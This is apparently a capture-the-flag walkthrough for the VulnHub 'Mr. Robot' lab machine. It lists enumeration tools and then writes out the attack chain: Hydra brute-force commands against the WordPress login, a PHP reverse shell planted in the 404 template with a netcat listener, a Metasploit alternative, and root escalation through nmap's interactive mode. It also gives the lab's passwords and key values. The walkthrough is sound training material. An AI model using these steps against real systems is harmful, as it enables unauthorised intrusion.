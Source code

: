 Project 1.0

Overview

The Mr. Robot vulnerable machine has three keys hidden in different locations. The goal is to find all three. Each key is progressively difficult to find. 
github.com/besoben/project01 has a .docx file which contains screen shots of every step. Please enjoy.

Operating Systems used:

Kali Linux
•	https://www.kali.org/get-kali/
Mr. Robot:1 VulnHub
•	https://www.vulnhub.com/entry/mr-robot-1,151/

Tools/Commands used:

nmap
	version 7.93
  Nmap is a network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing     the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection
nikto
	version 2.1.6
	Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other           problems. It performs generic and server type specific checks. It also captures and prints any cookies received
gobuster
	Gobuster is a tool used to brute-force:  URIs (directories and files) in web sites,  DNS subdomains (with wildcard support), Virtual Host names on       target web servers, Open Amazon S3 buckets, Open Google Cloud buckets, TFTP servers..
dirbuster
	version OWASP DirBuster 1.0-RC1
	DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now     of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts     to find these.
wpscan
	version 3.8.22
	The WPScan CLI tool is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to   test the security of their sites. The WPScan CLI tool uses a database of 38,431 WordPress vulnerabilities.
metasploit
	version 6.2.36
	The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS   signature development. It is owned by Boston, Massachusetts-based security company Rapid7
burpsuite
	version 2022.12.5
	Burp Suite is **an integrated platform and graphical tool for performing security testing of web applications**, it supports the entire testing         process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities.
hydra
	version 9.4
	Hydra is a pre-installed tool in Kali Linux used to brute-force usernames and passwords to different services such as FTP, ssh, telnet, MS SQL,         etc. Brute force can be used to try different usernames and passwords against a target to identify the correct credentials.
net cat
	version 1.10-47
	The Netcat ( nc ) command is a command-line utility for reading and writing data between two computer networks The communication happens using           either TCP or UDP. The command differs depending on the system ( netcat , nc , ncat , and others).
	
Walk through:

Footprinting and enumeration:

whoami
	notes user
ip address 
	notes system ip
sudo -i
	super user/ root interactive
nmap -O [ipadress/range]
	scans range of ip addresses and lists operating system 
arping -h [ipaddress/range]
	this pings the arp network to map local network
nikto -h [target-ipaddress]
	vulnerbility scanner, set host [ip]
gobuster dir -u [target-url/ipaddress] -w [/usr/share/wordlist/dirbuster/directory-list.2.3-small.txt]
	dictionary attack, against url searching for hidden directories
DirBuster application w report generation
	target url, wordlist, don't be recursive (unneeded in this), File extension "php, txt"
Physically explored the website, url input, triggered 404, accessed wp-login, robots.

FIRST FLAG FOUND, [target-ipaddress/robots] > [target0ipaddress/flag-1-of-3.txt] and [target-ipaddress/fsocity.dic]

download [fsocity.dic]

cat head [fsocity.dic]
	to see what the first few lines of text were
wc [fsocity.dic]
	word count, it's huge [that's what she said]
cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  
	sorts all unique into a seperate file
wc [sorted_fsocity.dic]
	word count, significantly lower

wpscan [target-ipaddress]
	find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	-L list file upload
	-p unkown sets the password as uknown 
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered

USERNAME IS ELLIOT
Option 1:
hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'
	-l elliot, lower case to indicate exact user
	-P password file
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	
Option 2:
wpscan -u elliot -P [sorted_fsociet.dic]
	-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan

[wp-username] = elliot 
[wp-pasword] = ER28-0652

Now we can log into wordpress. 

Forward Facing Application Leverage and generate damion shell:
Option #1
Log into wordpress application
Applications>edit>Edit 404 page template
Reverse Shell on the 404 page
	php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
	php reverse shell, changed [attacker-ipaddress]/[port]

nc -lvnp 443
	net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 
WE ARE IN THE TERMINAL 
now in bin/sh$

Option #2
metasploit
	msfconsole
	search wordpress shell
	use 1
	show options
	set username [wp-username]
	set password  [wp-password]
	set rhost [targetip]
	exploit
	ERROR
	advanced options
	set wpcheck false
	exploit
	shell 

gain terminal access
whoami
group id
pwd
ls
cd /home 
ls
cd /robot
ls

SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user
su robot, you get an error stating you need to be in a terminal

Lateral Movement, New Shell, New User Owned:

python -c 'import pty;pty.spawn("/bin/bash")'
spawns a terminal
su robot with the password [abcdefghijklmnopqestuvwxyz]
cd /robots
ls
cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
find / -perm -4000 -type f 2>/dev/null
	finds files that being ran by their owner
nmap --version
research time -- it's vulnerable! 

Root escallation: 

nmap --interactive
nmap !sudo /bin/bash
exit
nmap !sh
cd /root
ls
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
